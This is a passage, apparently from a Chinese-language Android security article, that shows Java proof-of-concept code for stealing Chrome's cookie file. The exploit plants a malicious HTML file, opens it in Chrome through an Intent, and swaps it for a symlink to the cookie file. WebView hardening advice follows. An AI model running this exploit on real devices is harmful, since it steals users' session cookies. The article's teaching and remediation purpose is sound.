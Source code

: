 ```java
  "    }\n" +
  "    setTimeout(readFile, 8000);\n" +
  "</script>\n" +
  "</body>";

public void attack() {
  try {
    // Create a malicious HTML
    exec("mkdir " + MY_TMP_DIR);
    exec("echo \"" + HTML + "\" > " + HTML_PATH);
    exec("chmod -R 777 " + MY_TMP_DIR);
    Thread.sleep(1000);

    // Force Chrome to load the malicious HTML
    invokeChrome("file://" + HTML_PATH);
    Thread.sleep(4000);

    // Replace the HTML with a symlink to Chrome's Cookie file
    exec("rm " + HTML_PATH);
    exec("ln -s " + TARGET_FILE_PATH + " " + HTML_PATH);
  } catch (Exception e) {
    e.printStackTrace();
  }
}

public void exec(String cmd) {
  try {
    String[] tmp = new String[]{"/system/bin/sh", "-c", cmd};
    Runtime.getRuntime().exec(tmp);
  } catch (Exception e) {
    e.printStackTrace();
  }
}

public void invokeChrome(String url) {
  Intent intent = new Intent(Intent.ACTION_VIEW, Uri.parse(url));
  intent.setClassName(TARGET_PKG, TARGET_PKG + ".Main");
  startActivity(intent);
}
```

修复建议是不需要使用file协议时禁用所有与之相关的功能（不影响assets/resources资源文件的加载）

```java
webView.getSettings().setAllowFileAccess(false);
webView.getSettings().setAllowFileAccessFromFileURLs(false);
webView.getSettings().setAllowUniversalAccessFromFileURLs(false);
```

若必须使用 file 协议，则禁用 file 协议的 JavaScript 功能

```java
if("file".equals(Uri.parse(url).getScheme())) {
  webView.getSettings().setJavaScriptEnabled(false);
} else {
  webView.getSettings().setJavaScriptEnabled(true);
}
webView.loadUrl(url);
```

